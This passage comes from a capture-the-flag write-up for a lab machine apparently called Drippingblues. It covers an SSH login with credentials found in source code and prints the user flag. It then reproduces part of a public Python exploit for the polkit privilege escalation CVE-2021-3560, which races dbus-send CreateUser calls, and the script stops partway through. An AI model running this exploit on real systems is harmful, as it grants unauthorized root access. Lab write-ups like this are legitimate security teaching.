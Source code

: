 ![dripsource](./docs/drippingblues/blues_03_dripsource.png)
<br><br>

Now that we have some usernames to try - travisscott and thugger - we can try to login via SSH. User "thugger" works with the password from the source code, and we are able to obtain the **user.txt** flag:<br><br>

```
5C50FC503A2ABE93B4C5EE3425496521
```

## Privilege escalation
<br>

*Linpeas* shows us that the machine is vulnerable to a few exploits, such as CVE-2021-3560, which escalates privileges using *polkit*:<br><br>

```py
import os
import sys
import time
import subprocess
import random
import pwd


print ("**************")
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")
print("Exploit code written by Ahmad Almorabea @almorabea")
print("Original exploit author: Kevin Backhouse ")
print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")
print ("**************")
print("[+] Starting the Exploit ")
time.sleep(3)

check = True
counter = 0
while check:
	counter = counter +1
	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])
	try:
    		#print('1 - Running in process', process.pid)
		Random = random.uniform(0.006,0.009)
		process.wait(timeout=Random)
```